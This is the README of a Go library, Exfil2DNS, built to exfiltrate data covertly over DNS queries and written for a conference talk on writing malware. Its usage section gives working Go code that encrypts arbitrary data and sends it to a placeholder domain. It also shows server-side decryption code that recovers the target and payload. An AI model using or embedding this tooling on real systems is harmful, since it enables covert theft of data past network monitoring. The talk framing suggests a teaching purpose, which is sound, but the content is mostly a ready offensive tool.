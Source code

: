 # Exfil2DNS

Simple library to exfiltrate data using DNS queries.

Written for the _Hands-on Writing Malware in Go_ talk at BSidesDC 2019.

For legal use only.

## TODO

- [ ] Buffer encrypted bytes
- [ ] Finish documentation (and make more consistent)
- [ ] Make code more concise (where possible)
- [ ] Make a seperate chunking function (?)
- [ ] Make Client and Decryptor threadsafe?
- [ ] More testing

## Usage

Encrypt and send data:

```go
import (
	"log"
	"github.com/CS-5/exfil2dns"
)
func main() {
	client, err := exfil2dns.NewClient(
		"cube", 
		"example.domain", 
		"ThisIsAKey1234", 23)
	
	if err != nil {
		log.Fatal("Error creating client: " + err.Error())
	}
	/* Exfil "Here's a sneaky string" */
	err = client.Exfil([]byte("Here's a sneaky string"))
	if err != nil {
		log.Fatal("Error exfiling data: " + err.Error())
	}
}
```

Decrypt data:

```go
import (
    "log"
    "github.com/CS-5/exfil2dns"
)

func main() {
    decryptor := exfil2dns.NewDecryptor("ThisIsAKey1234")

    /* DNS Server */
    queryString := someDNS.server()

	target, payload, err := decryptor.Decrypt(queryString)
	if err != nil {
		log.Fatal(err)
	}

    fmt.Printf("Target: %v, Payload: %v", target, payload)
}
```
